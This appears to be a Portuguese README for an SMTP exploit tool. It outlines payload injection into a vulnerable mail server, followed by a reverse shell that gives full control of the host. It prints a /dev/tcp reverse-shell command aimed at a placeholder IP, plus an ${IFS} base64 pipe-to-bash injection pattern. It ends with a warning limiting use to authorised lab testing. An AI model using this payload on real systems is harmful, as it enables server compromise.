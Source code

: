 O processo completo de exploração envolve duas etapas principais:

**Etapa 1: Execução do Exploit**

- Conexão com o servidor SMTP vulnerável
- Injeção do payload malicioso
- Confirmação de execução bem-sucedida

**Etapa 2: Estabelecimento do Shell Reverso**

- Recebimento da conexão reversa
- Estabelecimento da sessão interativa
- Controle completo do servidor comprometido

### **Payload Utilizado**

O exploit usa um payload base64 codificado para evitar problemas com caracteres especiais:

```bash
# Comando original
/bin/bash -i 5<> /dev/tcp/SEU_IP/PORTA 0<&5 1>&5 2>&5

# Payload codificado e enviado
echo${IFS}<base64_payload>|base64${IFS}-d|bash
```

## **Resultados Esperados**

### **Execução Bem-Sucedida**

Quando o exploit for executado corretamente, você verá uma saída similar à mostrada na imagem `exploit.png`:

- ✅ Conexão SMTP estabelecida
- ✅ Handshake SMTP completado
- ✅ Payload enviado com sucesso
- ✅ Confirmação de execução

### **Shell Reverso Funcionando**

Após a execução bem-sucedida, o shell reverso deve se conectar ao seu listener, como demonstrado na imagem `shell.png`:

- ✅ Conexão reversa estabelecida
- ✅ Prompt do shell disponível
- ✅ Comandos sendo executados
- ✅ Saída dos comandos visível

## **Instruções de Segurança**

### **⚠️ AVISOS IMPORTANTES**

- **APENAS PARA TESTES LEGÍTIMOS**: Use apenas em sistemas que você tem permissão para testar
- **Ambiente Isolado**: Execute em ambiente de laboratório controlado
- **Não Use em Produção**: Esta ferramenta é apenas para fins educacionais e de teste
